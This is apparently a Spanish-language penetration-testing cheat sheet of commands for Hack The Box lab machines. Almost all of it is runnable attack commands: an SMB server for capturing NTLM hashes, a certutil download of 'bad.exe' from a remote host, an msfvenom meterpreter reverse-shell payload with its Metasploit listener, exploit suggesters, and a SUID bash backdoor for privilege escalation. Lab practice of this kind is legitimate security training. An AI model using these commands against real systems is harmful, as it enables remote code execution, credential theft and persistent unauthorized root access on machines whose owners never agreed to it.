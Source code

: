 



## Local port fowarding

esto desde la maquina atacante, es decir, tu mismo, esto se conecta por ssh a la maquina victima y levanta el tunel por ese puerto.

```bash
ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```

## smb

crear una carpeta compartida rapida por smb y poder capturar hashes NTLM

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```



## mssql

```bash
impacket-mssqlclient  sequel.htb/PublicUser:GuestUserCantWrite1@sequel.htb
```





## Subdomain enumeration

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://flight.htb/" -H "Host: FUZZ.flight.htb" --hl 154
```






## File trasnfer

```bash
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```



## PAYLOAD msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=4444 -f exe -o shell.exe
```


### Listener

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.20
set LPORT 4444
set ExitOnSession false
exploit -j

```


## Modules



```bash
run post/multi/recon/local_exploit_suggester
```





## Windows-exploit-suggester


tenemos que ejecutar primero esto en la maquina *windows* victima

```cmd
sysinfo
```


----------


```bash
python2 /opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --update
```

```bash
/opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2020-05-13-mssb.xls --systeminfo sysinfo
```





bash SUID

cp /bin/bash /tmp/bash && chmod u+s /tmp/bash
